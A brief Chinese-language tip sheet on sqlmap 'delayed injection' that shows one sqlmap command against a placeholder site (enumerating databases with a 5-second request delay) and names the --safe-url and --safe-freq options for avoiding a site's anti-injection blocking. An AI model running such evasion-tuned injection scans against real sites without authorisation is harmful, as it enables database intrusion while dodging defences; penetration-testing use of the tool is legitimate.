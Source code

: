 ## sqlmap 延迟注入

    某些网站有防注入保护，短时间内如果请求次数较多或短时间内请求错误页面次数较多都可能被网站屏蔽
    1.`sqlmap -u "www.xxx.com/index.php/Index/view/id/40*.html" --dbs `--delay 5`    //间隔5秒请求一次
    2.`--safe-url`        //详细说明请查阅手册
    3.`--safe-freq `       //详细说明请查阅手册
